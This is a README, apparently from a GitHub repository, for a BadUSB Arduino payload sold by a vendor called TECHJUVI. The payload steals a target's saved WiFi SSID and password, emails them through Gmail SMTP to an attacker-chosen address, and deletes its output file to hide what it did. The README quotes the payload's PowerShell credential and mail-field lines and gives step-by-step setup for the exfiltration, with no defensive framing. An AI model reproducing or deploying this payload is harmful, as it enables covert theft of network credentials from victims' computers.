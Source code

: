 <h1>README!!</h1>
<h2>WIFI Profile capture and Email</h2>


<i>This payload Steals a targets WIFI Profile. I.E. SSID, Passowrd and Authentication type;
Saves the profile to a text file named "Profile.txt" on the targets desktop;
Then sends the contents of Profile.txt (which contains the targets wifi profile) via a gmail to an email address of your choosing.
After the WIFI Profile contents is emailed the Profile.txt file is delted and the payload leaves to trace on the targets machine of being executed.</i> 

<hr></hr>
**You must Edit the script to include a sender Gmails account creds as well as a recievers email address.

**Wifi Profile can only be sent via Gmail but can be received to any email.**  

You will need to edit the feilds for Senders and recievers email creditals.
For Senders Email go to line 101 or find this line 

<i><b> Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('CHANGE_THIS_GMAIL_ADDRESS@gmail.com', 'CHANGE_THIS_TO_GMAIL_PASSWORD')");</b></i> 

Here you will need to change the text that says <b><i>CHANGE_THIS_GMAIL_ADDRESS@gmail.com</i></b> to the gmail address the Wifi Profile is to be sent from.

Then Change the text that says <i><b>CHANGE_THIS_TO_GMAIL_PASSWORD</b></i> to the corresponding password of the email address from above.

IE: <i><b>Keyboard.print("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('johndoe.techjuvi@gmail.com', 'Password1234')")</b></i>

We will also need to specify a "from" email. Find this line of code 

<i><b>Keyboard.print("$ReportEmail.From = 'CHANGE_TO_GMAIL_ADDRESS'");</b></i> on line 109 and edit the text feild labeled
<i><b>CHANGE_TO_GMAIL_ADDRESS</b></i> to the same Gmail address from above (IE: senders Gmail).

The final change you'll need to make is to specify a Revievers Email. The line of code can be found on line 113 and looks like this: 

<i><b>Keyboard.print("$ReportEmail.To.Add('CHANGE_TO_Recievers_Email_ADDRESS')");</b></i>

Simply change the text that says <i><b>CHANGE_TO_Recievers_Email_ADDRESS</b></i> to the email address you want to recieve the Target's WIFI Profile .



<hr></hr>

To upload the Payload simply plug in your TECHJUVI BadUSB and open the sketch / .ino in the Arduino IDE. Make sure your board is set to Arduino Leonardo and the proper port is selected then click <i> verify</i> then <i>upload</i>.

<b><u>You can purchase a TECHJUVI BadUSB for only $9.99 by <a href="https://www.techjuvi.com/product/badusb/">clicking here!</a></u></b>






